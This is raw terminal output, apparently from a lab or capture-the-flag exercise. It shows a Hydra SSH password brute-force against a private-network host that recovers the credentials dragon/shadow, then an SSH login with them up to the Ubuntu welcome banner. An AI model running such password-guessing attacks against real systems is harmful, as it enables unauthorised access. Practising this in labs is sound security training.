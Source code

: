 Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-19 18:14:55
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.0.250.10:22/
[22][ssh] host: 10.0.250.10   login: dragon   password: shadow
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-19 18:15:13






==============================================================================================================================

┌──(kali㉿kali)-[~/Documents/dragon]
└─$ ssh dragon@10.0.250.10  
The authenticity of host '10.0.250.10 (10.0.250.10)' can't be established.
ED25519 key fingerprint is SHA256:BffrSAW4tUB+TWrywXkSWeUxLcFSs0YSko5us+xdXQo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.250.10' (ED25519) to the list of known hosts.
dragon@10.0.250.10's password: 
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-71-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of mar 05 ago 2025 08:13:17 UTC

  System load:  0.84               Processes:               105
  Usage of /:   40.7% of 11.21GB   Users logged in:         0
  Memory usage: 9%                 IPv4 address for enp0s3: 192.168.18.184
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

El mantenimiento de seguridad expandido para Applications está desactivado

Se pueden aplicar 80 actualizaciones de forma inmediata.
Para ver estas actualizaciones adicionales, ejecute: apt list --upgradable

Active ESM Apps para recibir futuras actualizaciones de seguridad adicionales.
Vea https://ubuntu.com/esm o ejecute «sudo pro status»


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
